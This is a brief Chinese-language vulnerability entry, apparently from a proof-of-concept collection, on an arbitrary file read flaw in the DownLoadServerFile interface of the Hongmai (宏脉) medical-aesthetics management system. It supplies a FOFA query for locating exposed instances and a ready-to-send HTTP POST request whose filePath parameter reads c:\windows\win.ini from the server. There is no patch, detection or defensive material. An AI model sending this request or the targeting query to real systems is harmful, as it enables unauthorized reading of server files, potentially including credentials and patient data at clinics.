 # 宏脉医美行业管理系统DownLoadServerFile任意文件读取下载漏洞

宏脉医美行业管理系统是由宏脉信息技术（广州）股份有限公司开发的一款服务于医美行业管理服务的系统。

## fofa

```yaml
title="宏脉医美行业管理系统"
```

## poc

```yaml
POST /zh-CN/PublicInterface/DownLoadServerFile HTTP/1.1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate

filePath=c:\windows\win.ini
```

